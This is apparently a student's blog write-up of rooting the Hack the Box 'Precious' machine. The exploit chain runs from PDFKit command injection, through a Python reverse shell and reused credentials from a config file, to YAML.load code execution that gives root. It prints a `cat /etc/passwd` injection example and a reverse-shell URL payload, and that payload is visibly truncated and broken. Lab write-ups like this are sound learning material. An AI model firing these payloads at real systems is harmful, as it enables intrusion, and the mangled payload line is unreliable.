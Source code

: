 ```yaml
---
layout: single
title: Hack the Box - Precious
---
```


One of the boxes that I hacked this semester was Precious at Hack the Box. In this box I have managed to achieve the
root access and used tools that I haven't had the chance to try out before.

## Exploiting suid and YAML.Load()

As usual,  I scanned the box with nmap and noticed that it had open HTTP and SSH ports. The website greeted the user
with a tool that converts websites to PDF. I tried inputting the google.com url but it didn't work, so I though it might
be a security measure from Hack the Box creators. Therefore, I have started apache2 server on my localhost on Kali and
specified my URL.

| ![Main page](../../assets/img/precious/google.png) |
| Main page |

The trick worked, and the website generated a pdf of my localhost web page.

| ![Generated pdf](../../assets/img/precious/converted.png) |
| Generated pdf |

After downloading the PDF I decided to examine it with binwalk to see if there are no hidden files/messages inside and
with exiftool to see the metadata of the pdf. With that I learned that it was created using pdfkit.

| ![Pdf analysis](../../assets/img/precious/pdf.png) |
| Pdf analysis |

I googled the version and found that it is [vulnerable to an RCE exploit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795),
in which one can provide payload after URL encoded character in a GET parameter like so:

```js
PDFKit.new("http://example.com/?name=#{'%20`cat /etc/passwd`'}").to_pdf
```

So I have prepared the payload from
[payloadallthethings github repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
which would start a reverse shell using python.

```bash
http://10.10.10.159/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_IN.spawn("sh")'`
```

| ![Reverse shell](../../assets/img/precious/shell.png) |
| Reverse shell |

And soon I got the connection to a netcat listener on my Kali machine. I looked around and noticed that user henry has a hidden
folder called `.bundle` in their home directory. The `.config` file contained a password that I have used to log in to the box
through ssh.

| ![Henry](../../assets/img/precious/henry.png) |
| Henry |

| ![Linpeas](../../assets/img/precious/linpeas.png) |
| Linpeas |

Then, with the user access I ran the `linpeas.sh` script and discovered that there are two suid commands: ruby and command
to update its dependencies. When reading through the `update_dependencies.rb` file I saw that it opens a `dependencies.yml`
allowing us to control the code that is going to be loaded through `YAML.load(...)`. After some searching I found that
the function is vulnerable to code injection. I found a payload that allowed executing shell commands, so I decided to use
the advantage that it is going to be executed as root and change bash permissions to suid. This worked after few tries,
because I missed the `-p` switch in executing bash after exploitation.

| ![Exploit](../../assets/img/precious/exploit.png) |
| Exploit |
